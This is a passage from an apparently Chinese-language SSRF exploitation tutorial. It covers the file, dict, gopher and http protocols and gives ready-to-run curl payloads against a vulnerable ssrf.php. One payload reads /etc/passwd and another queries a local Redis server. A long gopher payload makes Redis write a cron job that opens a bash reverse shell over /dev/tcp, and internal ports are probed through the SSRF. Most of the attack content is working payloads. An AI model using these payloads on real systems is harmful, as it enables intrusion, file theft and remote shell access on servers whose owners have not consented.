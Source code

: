 ## 6.1. SSRF利用的协议

（1）file：在有回显的情况下，利用 file 协议可以读取任意内容

（2）dict：泄露安装软件版本信息，查看端口，操作内网redis服务等

（3）gopher：gopher支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell

（4）http/s：探测内网主机存活

## 6.2. 攻击运行在内网或本地的应用程序

 **本地利用方式：**

（1）使用file协议 file protocol (任意文件读取)

```
curl -vvv "http://target/ssrf.php?url=file:///etc/passwd"
```

（2）使用dict协议 dict protocol (获取Redis配置信息)

```
curl -vvv "http://target/ssrf.php?url=dict://127.0.0.1:6379/info"
```

（3）使用gopher协议(俗称万能协议) gopher protocol (一键反弹Bash)

```
curl -vvv "http://target/ssrf.php?url=gopher://127.0.0.1:6379/_*1 %0d %0a $8%0d %0aflushall %0d %0a*3 %0d %0a $3%0d %0aset %0d %0a $1%0d %0a1 %0d %0a $64%0d %0a %0d %0a %0a %0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/4444 0>&1 %0a %0a %0a %0a %0a %0d %0a %0d %0a %0d %0a*4 %0d %0a $6%0d %0aconfig %0d %0a $3%0d %0aset %0d %0a $3%0d %0adir %0d %0a $16%0d %0a/var/spool/cron/ %0d %0a*4 %0d %0a $6%0d %0aconfig %0d %0a $3%0d %0aset %0d %0a $10%0d %0adbfilename %0d %0a $4%0d %0aroot %0d %0a*1 %0d %0a $4%0d %0asave %0d %0aquit %0d %0a"
```

## 6.3. 扫描内部网络，获取端口，服务信息

构造IP:PORT进行访问

探测内网IP192.168.1.124的80端口（这里用的是http协议当然也可以把http更换成dict协议去探测开放端口）

```
http://localhost/ssrf.php?url=http://192.168.1.124:80
```

![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211207161427117-1221456175.png)

探测3306端口

```
http://localhost/ssrf.php?url=http://192.168.1.124:3306
```

![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211207161509597-527770927.png)
